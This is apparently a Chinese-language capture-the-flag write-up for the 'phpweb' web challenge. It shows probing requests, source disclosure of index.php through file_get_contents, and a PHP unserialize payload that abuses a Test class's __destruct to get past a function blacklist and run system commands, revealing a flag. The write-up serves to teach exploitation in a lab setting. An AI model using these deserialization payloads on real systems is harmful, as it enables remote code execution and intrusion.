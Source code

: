 ![](<./img/Pasted image 20221113204640.png>)

---
每隔五秒`POST`一次，传递`func`和`p`参数

![](<./img/Pasted image 20221113204657.png>)

![](<./img/Pasted image 20221113204833.png>)
```php
func=abc&p=123
```
> call_user_func() expects parameter 1 to be a valid callback, function 'abc' not found or invalid function name

尝试`system`执行
```php
func=system&p=ls
```
> Hacker...

被过滤了QAQ

再尝试`file_get_contents`获取`flag`
```php
func=file_get_contents&p=/flag
```
> file_get_contents(/flag): failed to open stream: No such file or directory

并没有`/flag`这个文件，但是`file_get_contents`没有被过滤，尝试利用这一点获取`index.php`的内容
```php
func=file_get_contents&p=index.php
```

```php
<!DOCTYPE html>
<html>
	<head>
	    <title>phpweb</title>
	    <style type="text/css">
	        body {
	            background: url("bg.jpg") no-repeat;
	            background-size: 100%;
	        }
	        p {
	            color: white;
	        }
	    </style>
	</head>

	<body>
	<script language=javascript>
	    setTimeout("document.form1.submit()",5000)
	</script>
	<p>
	    <?php
	    $disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
	    function gettime($func, $p) {
	        $result = call_user_func($func, $p);
	        $a= gettype($result);
	        if ($a == "string") {
	            return $result;
	        } else {return "";}
	    }
	    class Test {
	        var $p = "Y-m-d h:i:s a";
	        var $func = "date";
	        function __destruct() {
	            if ($this->func != "") {
	                echo gettime($this->func, $this->p);
	            }
	        }
	    }
	    $func = $_REQUEST["func"];
	    $p = $_REQUEST["p"];
	
	    if ($func != null) {
	        $func = strtolower($func);
	        if (!in_array($func,$disable_fun)) {
	            echo gettime($func, $p);
	        }else {
	            die("Hacker...");
	        }
	    }
	    ?>
	</p>
	<form  id=form1 name=form1 action="index.php" method=post>
	    <input type=hidden id=func name=func value='date'>
	    <input type=hidden id=p name=p value='Y-m-d h:i:s a'>
	</body>
</html>
```
好家伙，ban了这么多

注意到有个从没用到的`Test`类，里边还有个`__destruct`方法，而且`unserialize`也没被ban，看来反序列化八九不离十了

大致思路是构造payload，利用反序列化生成`Test`类的一个对象，再借由其`__destruct`方法绕过过滤

```php
<?php
class Test {
    var $p;
    var $func;
}

$payload = new Test;
$payload->func = "system";
$payload->p = 'find / -name *flag*';
echo serialize($payload);
?>
```
> O:4:"Test":2:{s:1:"p";s:19:"find / -name \*flag\*";s:4:"func";s:6:"system";}
```php
func=unserialize&p=O:4:"Test":2:{s:1:"p";s:19:"find / -name *flag*";s:4:"func";s:6:"system";}
```

```
...
/tmp/flagoefiu4r93
...
```
---
读取`flag`
```php
$payload->p = 'cat /tmp/flagoefiu4r93';
```
> O:4:"Test":2:{s:1:"p";s:22:"cat /tmp/flagoefiu4r93";s:4:"func";s:6:"system";}

```php
func=unserialize&p=O:4:"Test":2:{s:1:"p";s:22:"cat /tmp/flagoefiu4r93";s:4:"func";s:6:"system";}
```

```
flag{3b352024-0ec2-4ac3-a110-9cbd86917b0c}
```

#Web #PHP #反序列化 #RCE